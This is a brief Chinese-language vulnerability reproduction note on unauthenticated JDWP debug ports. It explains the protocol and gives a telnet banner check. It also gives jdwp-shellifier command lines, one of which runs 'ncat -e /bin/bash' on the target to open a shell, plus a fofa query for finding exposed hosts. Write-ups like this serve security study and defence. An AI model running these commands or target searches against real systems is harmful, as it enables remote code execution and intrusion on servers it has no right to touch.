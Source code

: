 ### 1、事情起因
安全客上看到阿里云团队发布的：JDWPMiner挖矿木马后门简要分析  
遂复现此漏洞

### 2、原理介绍：

JDWP（Java DEbugger Wire Protocol）：即Java调试线协议，是一个为Java调试而设计的通讯交互协议，它定义了调试器和被调试程序之间传递的信息的格式。说白了就是JVM或者类JVM的虚拟机都支持一种协议，通过该协议，Debugger 端可以和 target VM 通信，可以获取目标 VM的包括类、对象、线程等信息，在调试Android应用程序这一场景中，Debugger一般是指你的 develop machine 的某一支持 JDWP协议的工具例如 Android Studio 或者 JDB，而 Target JVM是指运行在你mobile设备当中的各个App（因为它们都是一个个虚拟机 Dalvik 或者 ART），JDWP Agent一般负责监听某一个端口，当有 Debugger向这一个端口发起请求的时候，Agent 就转发该请求给 target JVM并最终由该 JVM 来处理请求，并把 reply 信息返回给 Debugger 端。

### 3、简单检测方法：  
```
telnet ip port
```
查看回显，如果出现“JDWP-Handshake”，则证明漏洞存在。如下图  
![image](./pic/1.jpg)  

### 4、漏洞复现：
借助工具：https://github.com/IOActive/jdwp-shellifier  
用法：
```
python2 ./jdwp-shellifier.py -t my.target.ip -p 1234
python2 ./jdwp-shellifier.py -t my.target.ip -p 1234 --cmd "ncat -v -l -p 1234 -e /bin/bash"
```
### 5、目标搜索
fofa上搜索目标
```
banner="jdwp"
```
试了几个都没有漏洞，暂不批量检测了

### 6、参考链接：  
https://zhuanlan.zhihu.com/p/147315596  
